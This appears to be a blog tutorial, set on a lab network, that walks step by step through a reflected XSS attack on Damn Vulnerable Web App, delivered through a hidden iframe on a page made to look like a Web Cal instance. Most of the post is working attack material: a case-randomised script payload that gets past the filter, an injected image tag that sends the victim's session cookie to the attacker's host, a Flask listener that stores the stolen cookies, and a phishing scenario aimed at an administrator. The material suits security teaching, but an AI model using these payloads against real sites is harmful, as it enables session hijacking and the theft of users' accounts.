 ```yaml
---
layout: post
title: Reflected XSS Through iFrame
categories:
- reflected xss
- web hacking
---
```


Imagine we are targetting an instance of __Damn Vulnerable Web App__ on an enterprise network. In this totally realistic scenarior, there is also an instance of Web Cal running on the same network. The Web Cal instance is vulnerable to clickjacking. To gain access to DVWA, we can create a malicious web page that masquerades as the Web Cal instance using an iframe. We then could place a second iframe into the page that executes a reflected XSS attack against the target DVWA instance on page load. We could then use social engineering to trick a user into navigating to our fake Web Cal page, and by doing so steal the user's DVWA session. 

On my lab network, the attacking machine is located at 192.168.1.169. Both the DVWA instance and Web Cal are running on a shared server with an IP of 192.168.1.30. When you see these addresses in the tutorial, remember to substitute them for your own.

#Step 0

We start out by "cloning" the Web Cal instance using an iframe. Our index page is set up in such a way that the iframe expands to take up the entire width of the screen, no matter what device it is loaded on.

{% highlight html %}
{% raw %} 

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
    <head>
        <title>Web Cal</title>
        <style type="text/css">
            body, html
            {
                margin: 0; padding: 0; height: 100%; overflow: hidden;
            }

            #content
            {
                position:absolute; left: 0; right: 0; bottom: 0; top: 0px; 
            }
        </style>
    </head>
    <body>
        <div id="content">
            <iframe width="100%" height="100%" frameborder="0" src="http://192.168.1.30/webcal/"></iframe>
        </div>

    </body>
</html>

{% endraw %} 
{% endhighlight %}

When we load the page, it looks exactly like the Web Cal instance.

#Step 1

Once we have "cloned" the Web Cal instance, it's time to find a reflected XSS vulnerability in the target site. For this example we will be using the Reflected XSS page on __Damn Vulnerable Web App__, with difficulty set to medium.

We start out by attempting to pass in a script tag directly through the URL using the __name__ parameter.

{% raw %} 
	http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<script>alert('xss');</script>#
{% endraw %} 

This request seems to fail, and looking at the source code reveals some kind of filtering.

![oops]({{ site.baseurl }}images/iframes/xss-fail.png)

Filters can sometimes be evaded by randomizing the capitilization of the script tags, as shown below.

{% raw %} 
	http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<sCriPt>alert('xss');</sCriPt>#
{% endraw %} 

Success - the filter evasion works.

![oops]({{ site.baseurl }}images/iframes/xss-success.png)

#Step 2

Now that we have identified a means to reflect scripts off of the page, let's try to execute a script that writes an image tag to the DOM. For our image, let's use this glorious picture of John Cena.

![john cena](http://www.wwe.com/f/styles/wwe_large/public/rd-talent/Bio/John_Cena_bio.png)

The following url should successfully load the image. We can't just straight up drop an image tag into the page, because doing so would not allow us to include the user's session cookie in the image tag. Insted we write the image tag to the DOM using a script tag.

{% raw %} 
	http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write('<img src=\"http://www.wwe.com/f/styles/wwe_large/public/rd-talent/Bio/John_Cena_bio.png\"></img>')</sCriPt>#

{% endraw %} 

#Step 3

Now that we can write images to the page, let's do it from an iframe. We take the URL we created in step 2 and use it as the frame's source. We place the iframe in the index.html file we created earlier.

{% highlight html %}
{% raw %} 

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
    <head>
        <title>Test Layout</title>
        <style type="text/css">
            body, html
            {
                margin: 0; padding: 0; height: 100%; overflow: hidden;
            }

            #content
            {
                position:absolute; left: 0; right: 0; bottom: 0; top: 0px; 
            }
        </style>
    </head>
    <body>
        <div id="content">
            <iframe width="100%" height="100%" frameborder="0" src="http://192.168.1.30/webcal/"></iframe>
        </div>

	<iframe style="position:absolute;top:99px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write('<img src=\"http://www.wwe.com/f/styles/wwe_large/public/rd-talent/Bio/John_Cena_bio.png\"></img>')</sCriPt>#"></iframe>


    </body>
</html>

{% endraw %} 
{% endhighlight %}

We then try to access our index.html page. If we see John Cena inside the iframe, we know the image tag injection worked.

![oops]({{ site.baseurl }}images/iframes/oops.png)

Uh oh! Check out the results above. Simply escaping the double quotes for our image tag's source does not seem to be working. 

To fix this problem, we need to use html entities for the quotes in the image tag. We modify the iframe we added to index.html to look like this:

{% highlight html %}
{% raw %} 

	<iframe style="position:absolute;top:99px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write('<img src=&quot;http://www.wwe.com/f/styles/wwe_large/public/rd-talent/Bio/John_Cena_bio.png&quot;></img>')</sCriPt>#"></iframe>

{% endraw %} 
{% endhighlight %}

Success! John Cena has entered the iframe.

![oops]({{ site.baseurl }}images/iframes/cena-in-frame.png)

#Step 4

Now for the finishing touches of our attack. Let's get rid of John Cena and aim our image's src to a a non existent image tag on our server. We'll attempt to set the filename to the victim's cookie. If all goes according to plan, the user's cookie should show up in our httpd error log.

{% highlight html %}
{% raw %} 

	<iframe style="position:absolute;top:99px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write('<img src=&quot;192.168.1.169:4444?c='+document.cookie+'&quot;></img>')</sCriPt>#"></iframe>

{% endraw %} 
{% endhighlight %}

Tailing /var/log/httpd/error.log while making a request to http://localhost/ reveals that something isn't quite right. No record of our attempt to access the invalid image file shows up in our logs, which tells us that the request never happened in the first place.

![oops]({{ site.baseurl }}images/iframes/log-nope.png)

To learn why, we look at the source code of our loaded iframe. Notice how the image that we tried to write to the server does not contain any cookies. Instead, we see the following value for the tag's source attribute.

![oops]({{ site.baseurl }}images/iframes/concat-fail.png)

The problem is that since the image tag is being passed in through the URL, our plus signs are being converted into whitespace. This prevents us from easily using JavaScript string concatenation. The workaround is to use array joins instead.

{% highlight html %}
{% raw %} 

	<iframe style="position:absolute;top:99px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write(['<img src=&quot;http://192.168.1.169/',document.cookie,'.png&quot;></img>'].join(''))</sCriPt>#"></iframe>

{% endraw %} 
{% endhighlight %}

Tailing our log file while reloading the page once again, we see that the image request has gone through successfully. 

![oops]({{ site.baseurl }}images/iframes/log-win.png)

Awesome. Now all we have to do is modify the image url slightly so that it passes the victim's cookies as a GET parameter.


{% highlight html %}
{% raw %} 

	<iframe style="position:absolute;top:99px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write(['<img src=&quot;http://192.168.1.169:4444/?c=',document.cookie,'&quot;></img>'].join(''))</sCriPt>#"></iframe>

{% endraw %} 
{% endhighlight %}

We then use a quick Python script to set up a listener for the GET request.

{% highlight python %}
	
	from flask import Flask, request, render_template, abort
	from flask.ext.cors import CORS
	
	app = Flask(__name__)
	app.debug = True
	
	CORS(app)
	
	@app.route('/')
	def index():
	
	    cookies = request.args.get('c')
	    with open('cookies.txt', 'a') as fd:
	        print
	        print
	        print
	        print cookies
	        fd.write(cookies)
	    return abort(404)
	
	app.run(host='0.0.0.0', port=4444)

{% endhighlight %}


After reloading the page, we get the following output.


![oops]({{ site.baseurl }}images/iframes/cookies-stolen.png)

#Step 5

The mechanics behind the session hijacking attack are tested and complete. Now we just modify the iframe we added to our index.html page such that it is lifted completely outside of the visible portion of the page. By doing this, user is completely unaware that they've visited DVWA, let alone had their creds stolen.

{% highlight html %} 
{% raw %} 

	<iframe style="position:absolute;top:-9999px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write(['<img src=&quot;http://192.168.1.169:4444/?c=',document.cookie,'&quot;></img>'].join(''))</sCriPt>#"></iframe>

{% endraw %} 
{% endhighlight %}

Here's a quick video on how the attack could play out. In the video, an email is sent to an administrator complaining that the Wiki page is down. The administrator opens the email, clicks the link, and navigates to what appears to be the Wiki page. The administrator's session is stolen, and the administrator navigates away from the page believing that the ticket is a false alarm.

<iframe width="560" height="315" src="https://www.youtube.com/embed/--9faUnC-k4" frameborder="0" allowfullscreen></iframe>

